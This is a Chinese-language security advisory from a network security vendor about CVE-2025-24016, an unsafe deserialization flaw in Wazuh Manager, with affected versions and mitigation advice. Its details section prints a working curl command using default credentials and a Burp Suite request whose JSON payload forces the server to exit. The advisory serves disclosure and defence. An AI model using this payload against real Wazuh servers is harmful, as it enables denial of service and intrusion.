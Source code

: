 #  CVE-2025-24016漏洞对Wazuh平台的潜在威胁   
原创 メ念灬蜘蛛  山石网科安全技术研究院   2025-03-29 09:00  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/NGIAw2Z6vnLzibrp7C4HmazCNIQXMJIRxvbibNMMmxDGrTN0Z9ibYzXnSNKobTzADCPgdo1b7ukKNARFEicHqQiajWw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8Jb8ZACqDjPdMzgicp2SzdZ19mFnVcBO53s1uA2cSfarQkwibVUeCeH9w/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
****  
**立即行动！保护您的Wazuh服务器免受远程代码执行攻击！**  
  
****  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NGIAw2Z6vnLKuKAwMiaYedpTAYugKibaTBsHzf5pDuztECgfIgOfpG5DRF31jzhosMEj23dlx186q0zgLaIZj9lA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
近日，Wazuh平台曝出一个严重安全漏洞（CVE-2025-24016），评分高达9.9，可能允许攻击者远程执行代码，控制您的服务器。这一漏洞影响Wazuh Manager4.4.0至4.9.0版本，威胁级别空前。  
这篇文章将深入探讨这个漏洞的技术细节，分析其工作原理以及可能带来的安全风险。我们将一起揭开这个漏洞的神秘面纱，了解它是如何被利用的，以及我们应该如何防范  
。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**一、**  
**漏洞**  
**背景**  
  
  
美国时间2025年2月10日，Wazuh发布关键补丁更新，修复了评分为9.9的严重漏洞CVE-2025-24016。  
  
  
  
Wazuh是一个免费的开源平台，用于威胁预防、检测和响应。从4.4.0版本和4.9.1版本开始，一个不安全的反序列化漏洞允许在Wazuh服务器上远程执行代码。DistributedAPI参数序列化为JSON，并使用'as_wazuh_object'进行反序列化。如果攻击者设法在DAPI请求/响应中注入未经清理的字典，他们可以伪造未经处理的异常（'__unhandled_exc__'）来评估任意python代码。该漏洞可以由任何具有API访问权限的人（受损的仪表板或集群中的Wazuh服务器）触发，或者在某些配置中，甚至由受损的代理触发。山石网科应急响应中心提醒Wazuh用户尽快采取安全措施阻止漏洞攻击。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**二、漏洞评级**  
  
  
CVE-2025-24016：严重 9.9  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**三、影响版本**  
  
- >=Wazuh Manager   
4.4.0  
  
- <=Wazuh Manager   
4.9.0  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**四、漏洞详情**  
  
****  
该漏洞源于Wazuh服务器API中不安全的反序列化问题（API接口对反序列化数据缺乏安全校验）。攻击者可以通过向服务器发送特制请求来利用此缺陷，从而可能导致任意代码执行，以此关闭或控制Wazuh服务器并利用受损的代理在集群内传播攻击。“该漏洞可以由任何具有API访问权限（能够通过身份验证向服务器发送合法请求的主体）的人（受损的仪表板或集群中的Wazuh服务器）触发，或者在某些配置中，甚至由受损的代理触发，攻击者可以通过执行以下命令会强制立即关闭主服务器：  
  
```
curl -X POST -k -u "wazuh-wui:MyS3cr37P450r.*-" -H "Content-Type: application/json" --data '{"__unhandled_exc__":{"__class__": "exit", "__args__": []}}' https://<worker-server>:55000/security/user/authenticate/run_as。
```  
  
  
  
攻击者向https://:55000/security/user/authenticate/run_as发送伪造身份认证的POST请求，绕过SSL证书验证(-k参数)，使用默认凭证(如wazuh-wui账户)通过基础认证(-u参数)，通过构造特殊的JSON数据{"unhandled_exc":...}触发API接口的反序列化漏洞，使服务器错误解析为系统级exit命令，最终导致主服务进程强制终止。  
  
  
可以通过以下方式复现漏洞  
  
Burp Suite Request to Trigger the Vulnerability[1]:  
  
```
POST /security/user/authenticate/run_as HTTP/1.1Host: target.com:55000Cache-Control: max-age=0Accept-Language: en-USUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)   Chrome/126.0.6478.183 Safari/537.36Accept: application/jsonAccept-Encoding: gzip, deflate, brConnection: keep-aliveAuthorization: Basic d2F6dXcta3dpTUltUzNjcjM3UDA1MHItOg==  # Base64-encoded "wazuh-wui:MyS3cr37P450r.*-"Content-Type: application/jsonContent-Length: 83{  "__unhandled_exc__": {    "__class__": "exit",    "__args__": []  }}
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTiaLZvVnPXEED5JBmflm2oxcEibicABwuicHDicy8pVlHJzcUAsFCoSL0G7tgyvGK1jwEAUWhvPrAbBWw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**五、安全建议**  
  
****  
**1.限制 API 访问**  
**：**  
限制对受信任网络的 API 访问并实施严格的身份验证措施。  
  
  
**2.禁强化代理配置：**  
保护 Wazuh 代理以防止通过受感染的端点进行利用。  
  
  
**3.监控日志：**  
定期查看日志中是否存在可疑活动，例如异常的 API 调用或未经  
授权的访问尝试。可以通过  
输入sudo tail -f /var/ossec/logs/ossec.log来对日志进行监控，如下图所示。  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTiaLZvVnPXEED5JBmflm2oxThsic7cGtOwFOncuBQib1dmT8r0WW5ic97dB6TicyMMv0GFLqwTAdbvujQ/640?wx_fmt=png&from=appmsg "")  
  
  
**4.升级官方安全补丁：**  
在如图位置进行最新版本的安装。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTiaLZvVnPXEED5JBmflm2ox3yKWeKhBDCHLzqcDLCOuxJk6yXv14y1e1ibzgkV70BrCticaTpdTmpIg/640?wx_fmt=png&from=appmsg "")  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**六、相关链接**  
  
  
[1]https://github.com/MuhammadWaseem29/CVE-2025-24016?tab=readme-ov-file#wazuh-remote-code-execution-rce---poc  
  
[2]  
https://www.cve.org/CVERecord?id=CVE-2025-24016  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8KrXv9sZf93yt4huq2kARyZSgmdnic40GayohIYiaD2FAkkAqJehJSMtQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
山石网科是中国网络安全行业的技术创新领导厂商，由一批知名网络安全技术骨干于2007年创立，并以首批网络安全企业的身份，于2019年9月登陆科创板（股票简称：山石网科，股票代码：688030）。  
  
现阶段，山石网科掌握30项自主研发核心技术，申请540多项国内外专利。山石网科于2019年起，积极布局信创领域，致力于推动国内信息技术创新，并于2021年正式启动安全芯片战略。2023年进行自研ASIC安全芯片的技术研发，旨在通过自主创新，为用户提供更高效、更安全的网络安全保障。目前，山石网科已形成了具备“全息、量化、智能、协同”四大技术特点的涉及边界安全、云安全、数据安全、业务安全、内网安全、智能安全运营、安全服务、安全运维等八大类产品服务，50余个行业和场景的完整解决方案。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/NGIAw2Z6vnLzibrp7C4HmazCNIQXMJIRxPibycdiaNQCI4PNojUk3eYCQDZs6c5zNMUkq7yFNeYQIxicAV33eHNdFA/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  

